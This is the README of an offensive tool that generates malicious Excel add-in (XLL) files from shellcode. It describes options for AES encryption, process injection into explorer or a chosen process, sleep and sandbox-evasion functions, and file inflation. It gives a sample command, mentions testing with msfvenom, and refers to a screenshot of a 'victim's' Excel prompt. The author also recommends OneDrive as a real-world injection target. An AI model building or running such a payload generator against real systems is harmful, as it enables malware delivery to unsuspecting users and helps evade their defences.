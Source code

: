 # Xll-Payload-Generator

Payload generator for XLL files (Excel Add in). Usage includes AES encryption, process injection, sleep, sandbox, inflate. This does not currently bypass anything but does execute. 

Process Injection defaults to explorer, but I think OneDrive would be the best targets in a real world scenario.

Todo:
Direct Syscalls
Alternative Encryption Methods
Packing into ZIP/ISO

#### Requirements
> g++

## Usage
```
usage: XllGen.py [-h] -i INPUT [-t {aes,none}] [-k KEY] [-s] [--sand] [--inflate INFLATE] -o OUTPUT [-p PROCESS]

Encrypt a binary file and generate C++ code.

optional arguments:
  -h, --help            show this help message and exit
  -i INPUT, --input INPUT
                        Path to the input binary file
  -t {aes,none}, --type {aes,none}
                        Encryption type (aes or none)
  -k KEY, --key KEY     Will generate if not supplied. Encryption key (128-bit AES key in hexadecimal)
  -s, --sleep           Add sleep function
  --sand                Add sandbox function
  --inflate INFLATE, -m INFLATE
                        Inflate Size (Specify MB Size)
  -o OUTPUT, --output OUTPUT
                        Output XLL file name
  -p PROCESS, --process PROCESS
                        Name of the target process (default: 'explorer')
```

### Testing with msfvenom
Must have EXITFUNC=thread  
Most C2's have this built in

## Compile Example
![Compile Example](pics/generator.png)
   
```.\XllGen.py -i .\test.bin -t aes --sleep -s -o test -p notepad -m 100```  
        
## Victim's Excel Prompt
![Victim's Excel Prompt](pics/executionprompt.png)
         
## Example Execution
![Example Execution](pics/example.gif)
